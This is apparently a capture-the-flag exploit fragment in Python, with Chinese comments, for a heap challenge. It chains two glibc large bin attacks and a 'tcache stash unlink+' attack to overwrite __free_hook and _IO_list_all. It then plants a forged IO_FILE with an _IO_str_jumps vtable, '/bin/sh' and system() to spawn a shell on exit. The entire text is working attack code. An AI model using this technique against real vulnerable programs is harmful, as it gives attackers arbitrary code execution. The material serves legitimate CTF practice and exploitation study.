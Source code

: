    ```python
   free(4)
   add(1,0x430-0xb0)
   add(2,0x430-0xb0)
   
   
   # ========== 第一次 large bin attack ==========
   # 先完成tcache stash unlink + 攻击的前提条件 : 往free_hook写入一个堆地址
   add(2,0x410)    # 触发第一次的 large bin attack 的chunk
   add(1,0xc0)     # 隔开 
   add(0,0x420)    # 构造 large bin attack
   add(1,0xc0)     # 隔开
   for i in range(8):
       add(4,0x400)    # 触发第二次的 large bin attack
       free(4)
   add(1,0x400)
   free(0)
   add(1,0x430)    # 将chunk0放入large bin中 构造large bin attack
   
   # 修改最大chunk的bk_nextsize指针
   target_addr = free_hook_addr - 0x28
   payload0 = p64(0)*3 + p64(target_addr)
   edit(0,payload0)
   free(2)
   add(1,0x430)    # 将chunk1放入large bin中，触发attack 向target_addr写入堆地址
   
   # ========== 触发tcache stash unlink + attack ==========
   # 构造 tcache stash unlink + 中 small bin的bk指针 同时要保证small bin第一个chunk的链完整性
   fake_addr = target_addr + 8
   first_chunk_addr = heap_base + 0x1320
   payload = p64(0)*113 + p64(0xb1) + p64(first_chunk_addr) + p64(fake_addr)
   edit(3,payload)
   # 触发 tcache stash unlink + 攻击 ，将包含free_hook的chunk放入tcache中 
   add(3,0xa0)     #申请一个small bin同等大小的chunk
   
   
   # ========== 第二次 large bin attack ==========
   # 修改最大chunk的bk_nextsize指针
   target_addr = IO_list_all_addr-0x20
   main_arena_bins_largebin = addr + 0x3f0
   payload = p64(main_arena_bins_largebin)*2 + p64(0) + p64(target_addr)
   edit(0,payload)
   free(4)
   debug()
   add(1,0x430)    # 触发attack 向target_addr 即 _IO_list_all 写入当前堆地址
   
   
   # ========== 在当前堆chunk4上 构造IO_FILE ==========
   
   file = p64(0) + p64(0)
   # _IO_write_base < _IO_write_ptr _IO_write_end
   file+= p64(0) + p64(0x50) + p64(0)
   
   # _IO_buf_base     _IO_buf_end
   file+= p64(heap_base + 0x3B08) + p64(heap_base + 0x3B08 + 0x1e)
   
   file+= b"/bin/sh\x00"*2 + p64(system_addr)
   file = file.ljust(0xc8,b"\x00")
   
   # vtable->_IO_str_jumps  
   file+= p64(_IO_str_jumps_addr)
   edit(4,file)
   
   p.sendlineafter(b':',b'5') # 调用exit
   ```